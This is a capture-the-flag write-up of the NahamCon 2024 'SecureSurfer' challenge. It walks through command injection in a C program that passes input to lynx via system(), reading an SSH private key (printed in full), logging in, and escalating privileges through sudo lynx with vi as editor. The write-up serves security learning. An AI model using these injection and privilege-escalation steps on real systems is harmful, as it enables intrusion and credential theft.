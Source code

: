 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | SecureSurfer Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: misc
challenge: SecureSurfer
tags: "misc, twh, rce, lpe, privesc"
---
```


<h1 class="heading card-title white-text">Nahamcon 2024</h1>

## SecureSurfer
> Solved by : thewhiteh4t


- we are provided with SSH access and a C source code file
- it is a simple C program which contains some cases and a `surf` function
- surf function passes our input without much input validation to `lynx` a console based browser tool
- 5 options have predefined inputs but in 6th option we can provide our input

```c
    case 6:
                    {
                        char url[1024];
                        printf("Online URL: ");
                        fflush(stdout); 
                        fgets(url, sizeof(url), stdin);
                        url[strcspn(url, "\n")] = 0; // Remove newline character
    
                        if (strstr(url, "https://") == NULL) {
                            printf("\nWe are secure here at the SecureSurfer! You must use https:// !\n");
                        } else {
                            surf(url);
                        }
                    }


    void surf(const char *url) {
        char command[512];
        sprintf(command, "/usr/local/bin/lynx --accept_all_cookies -cache=0 -restrictions=all '%s'", url);
        system(command);
        system("stty sane");
    }
```

- only requirement is that our input should contain `https://`
- we can inject commands through our input by using `$()` and single quotes :

```
'$(id)'#https://
```

![](https://i.imgur.com/65qrdco.png)

- so we have command injection, kind of
- now let’s try to drop to a shell : 


![](https://i.imgur.com/VxLvFJH.png)

- we did get a shell but command output is blank, maybe due to how lynx works or some other reason but we can still explore and home dir of `securesurfer` contains a `.ssh` directory, so we can try to look for `id_rsa`


```
securesurfer@securesurfer:~$ cat .ssh/
authorized_keys  id_ecdsa         id_ecdsa.pub
```

- fortunately with lynx we can read files directly!

```
'$(~/.ssh/id_ecdsa)'#https://
```

```
-----BEGIN EC PRIVATE KEY-----
MHcCAQEEIIDx0ks2B22N69cy8Vyy2VrNPDdhYTQlKWdVFdanIvydoAoGCCqGSM49
AwEHoUQDQgAEJEgkMpKgbm52oJfCbDLXvX1b3ZWE6j+P5tOdrBH5n/aaRwwZqZtp
7C82/VWBuq6RkSRFspGSlqsgJNG4RHQIRA==
-----END EC PRIVATE KEY-----
```

- now we can directly login and skip the browser on login

```
chmod 600 id_ecdsa
ssh -p 31252 securesurfer@challenge.nahamcon.com -i id_ecdsa
```

![](https://i.imgur.com/NxkhvyI.png)



- after looking into lynx for sometime I came across a useful option : 

```
-editor=EDITOR    enable edit mode with specified editor
```

- on the target box `vi` was available so we can run lynx with sudo and vi as our editor and drop into edit mode and try to launch a bash shell
- we also need a local file for the editor

```
touch a
sudo lynx -editor=vi a
```

- after getting inside lynx we need to press `e` to launch edit mode where `vi` takes over
- and now we can simply use the following to get a shell : 

```
:!/bin/bash
```

![](https://i.imgur.com/gKgA9Cc.png)
